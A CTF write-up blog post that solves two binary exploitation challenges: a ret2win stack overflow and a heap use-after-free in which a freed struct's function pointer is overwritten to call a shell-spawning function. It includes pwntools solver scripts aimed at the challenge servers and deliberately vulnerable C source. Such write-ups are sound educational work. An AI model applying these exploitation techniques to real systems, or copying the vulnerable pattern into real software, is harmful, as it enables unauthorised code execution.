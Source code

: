 ```yaml
---
title: CTF Kareem Writeups
description: This is a writeup of the challenges I have solved during the CTF kareem organized by Securinet TEKUP.
author: alternox
date: 2025-03-15 12:00:00 +0000
categories: [Blogging, Writeups]
tags: [Writeups]
render_with_liquid: false
image:
  path: /assets/img/ctfkareem2025/ctfkareemlogo.jpg
---
```


بِسْمِ اللَّـهِ الرَّحْمَـٰنِ الرَّحِيمِ


## Event description

CTF Kareem was a CTF orgnanized by Securinets TEKUP During Ramadhan, an overnight CTF for about 10.30 Hours, me and my team played as "Kaskrout b tey" and landed the first place.

![Scoreboard](/assets/img/ctfkareem2025/scoreboard.jpg)

## Binary Exploitation
### The River's Daughter
Challenge: 
![First Pwn Task](/assets/img/ctfkareem2025/pwntask1.png)

This is a simple ret2win challenge, so we do the usual, calculating the offset then getting the win address:

```python
#!/bin/python3
from pwn import *

local = False
name = 'main' 
e = ELF(name)
if local:
	p = process(name)
else:
	p = remote("51.77.140.155", 1329)
rop = ROP(e)

ret= 0x000000000040101a
win = 0x000000000040132d

payload = cyclic(64+8)
payload += p64(win+1)
p.recv()
p.sendline(payload)
p.interactive()
```

![First Pwn Task](/assets/img/ctfkareem2025/pwntask1solved.png)

flag : `Securinets{sh3_1s_th3_FL4G}`

### Patrick Bateman
Challenge: 
![First Pwn Task](/assets/img/ctfkareem2025/pwntask2.png)

This challenge was a bit tricky, but it had the source code attached to it:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <stdint.h>

typedef struct string {
    uint64_t length;
    char *data;
    void (*print_string) (char*);
}string;

void hacked() {
    system("/bin/sh");  
}

void print_string(char* s){
    printf("%s", s);
}

int main() {
    string *s = malloc(sizeof(string));  
    if (s == NULL) {
        perror("malloc failed");
        return 1;
    }

    puts("welcome patrick give the string length: ");
    scanf("%u", &s->length);

    s->data = malloc(s->length + 1);
    if (s->data == NULL) {
        perror("malloc failed");
        return 1;
    }
    memset(s->data, 0, s->length + 1);

    puts("Enter something");
    read(0, s->data, s->length);
    s->print_string = print_string;
    free(s->data);  
    free(s);        

    char *s2 = malloc(24);  
    if (s2 == NULL) {
        perror("malloc failed");
        return 1;
    }

    puts("Enter more");
    read(0, s2, 24);

    printf("well? this is your thing\n");
    s->print_string(s->data);

    free(s2);
    return 0;
}
```

solver: 

```python
#!/bin/python3
from pwn import *
local = False
name = 'heap' 
e = ELF(name)

if local:
	p = process(name)
else:
	p = remote("51.77.140.155", 1403)

rop = ROP(e)

win = 0x0000000000401289

p.recv()
p.sendline(b'8')
p.recv()
p.sendline(cyclic(7))
p.recv()
p.sendline(cyclic(16) + p64(0x0401289))
p.interactive()

```
